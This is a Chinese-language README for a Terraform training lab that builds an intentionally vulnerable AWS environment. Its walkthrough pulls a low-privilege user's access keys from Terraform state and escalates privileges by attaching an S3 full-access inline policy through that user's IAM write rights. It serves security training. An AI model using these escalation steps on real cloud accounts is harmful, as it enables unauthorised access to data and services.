 # AWS IAM 提权漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS IAM 提权漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 IAM 提权漏洞访问到原本没有权限访问的服务。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aws/iam/privilege_escalation
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

环境搭建完后，通过以下命令查看低权限账号的 access_key_id 和 secret_access_key

```shell
apt-get install jq -y
terraform state pull | jq '.resources[] | select(.type == "aws_iam_access_key") | .instances[0].attributes'
```

![img](../../../images/1652690733.png)

## 漏洞利用

首先配置上低权限账号的 access_key_id 和 secret_access_key

```shell
aws configure
```

配置完后，这里以 S3 服务为例，尝试运行以下命令，发现访问被拒绝

```shell
aws s3 ls
```

![img](../../../images/1652690932.png)

查看当前用户的权限

```shell
aws iam get-user
aws iam list-user-policies --user-name huoxian_terraform_test
aws iam get-user-policy --user-name huoxian_terraform_test --policy-name IAMFullAccess
```

![img](../../../images/1652692179.png)

发现当前用户有 IAM 的所有权限，这也就意味着我们可以给当前用户赋予 S3 的权限，从而使当前用户拥有 S3 服务的权限。

编辑策略文件

```shell
vim AmazonS3FullAccess.json
```

文件内容如下：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "s3:*",
                "s3-object-lambda:*"
            ],
            "Resource": "*"
        }
    ]
}
```

上传策略文件

```shell
aws iam put-user-policy --user-name huoxian_terraform_test --policy-name AmazonS3FullAccess --policy-document file://AmazonS3FullAccess.json
```

再次尝试获取 S3 服务内容，发现已经可以获取了，说明策略文件生效了，这样就实现了 IAM 提权。

```shell
aws s3 ls
```

![img](../../../images/1652692416.png)

## 销毁环境

```shell
aws iam delete-user-policy --user-name huoxian_terraform_test --policy-name AmazonS3FullAccess
terraform destroy
```
